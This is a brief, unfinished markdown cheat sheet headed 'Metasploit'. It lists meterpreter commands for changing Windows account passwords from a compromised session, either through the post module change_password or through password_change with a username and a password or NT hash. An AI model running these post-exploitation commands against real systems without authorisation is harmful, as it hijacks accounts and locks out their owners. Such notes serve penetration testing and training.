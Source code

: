 # Metasploit

TODO: Fill this info

## 01 - Post Module

```
meterpreter > run post/windows/manage/change_password
```

## 02 - Interactive Session

```
meterpreter > password_change -h
```

```
meterpreter > password_change -u <username> -p <password> -P

meterpreter > password_change -u <username> -n <nt_hash> -P
```